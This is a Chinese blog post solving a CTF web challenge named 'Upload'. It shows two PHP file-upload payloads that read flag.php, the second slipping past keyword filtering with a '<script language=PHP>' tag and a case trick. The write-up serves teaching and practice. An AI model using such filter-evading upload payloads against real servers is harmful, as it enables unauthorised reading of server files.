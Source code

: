 ```yaml
---

layout: post
title:  CTF竞赛-文件上传
subtitle: 本文为CTF web网络攻防方向，主要记录文件上传的题目
date:   2018-03-25 18:56:31 +0800
author: "Jove"
header-img:  'images/gallery/sappho-and-alcaeus.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Sappho and Alcaeus  
Creator: Lawrence Alma-Tadema  
Creator Lifespan: 1836/1912  
Creator Nationality: Dutch and British  
Date Created: 1881  
Physical Dimensions: w122 x h104.1402 cm  
Type: oil paintings; panel paintings  
Medium: oil on panel  
Artist: Sir Lawrence Alma-Tadema, R.A., O.M.  </cite>  

CTF竞赛题目类型主要包含 `Web 网络攻防` 、 `Reverse 逆向工程` 、 `Pwn 二进制漏洞利用` 、 `Crypto 密码攻击` 、 `Mobile 移动安全`  以及 `Misc 安全杂项` 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #Upload#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 50pt，类型为 Web，名称为【Upload】的题目：

![ctf-20180324144139821](/images/posts/ctf/ctf-20180324144139821.png)

## 解题过程

进入到靶场环境后，得到如下的初始页面：

![ctf-20180324144309647](/images/posts/ctf/ctf-20180324144309647.png)

根据题目的提示tips：flag在flag.php中，可以推测本题目是想通过上传文件，并通过执行文件读取flag.php源码，来获取flag。

先随意上传一张图片看看效果：

![ctf-20180324145416668](/images/posts/ctf/ctf-20180324145416668.png)

发现**【上传成功!】**是个超链接可以点击，点击后是查看上传文件，由此得出，可以通过文件上传来构造读取flag.php的源码。

先构造最简单直接的版本：

```php
<?php
$file = fopen("../flag.php", "r");
echo fread($file, filesize("../flag.php"));
fclose($file)
?>
```

上传后，得到

![ctf-20180324150835203](/images/posts/ctf/ctf-20180324150835203.png)

发现并没有执行，并且**php**后缀都被过滤掉了，尝试将 **?php**  使用 **<script>** 绕过，代码中的 **.php** 使用大写绕过：

```php
<script language=PHP>
$file = fopen("../flag.".strtolower("PHP"), "r");
echo fread($file, filesize("../flag.".strtolower("PHP")));
fclose($file)
</script>
```

上传后，得到：

![ctf-20180324151330884](/images/posts/ctf/ctf-20180324151330884.png)

此时并没有输出错误，说明执行成功了，**【F12】查看网页源码**：

![ctf-20180324151407995](/images/posts/ctf/ctf-20180324151407995.png)

至此，得到flag。

## 总结

本题目相对简单，主要考察php文件读取，以及简单的针对关键字过滤的绕过技巧。
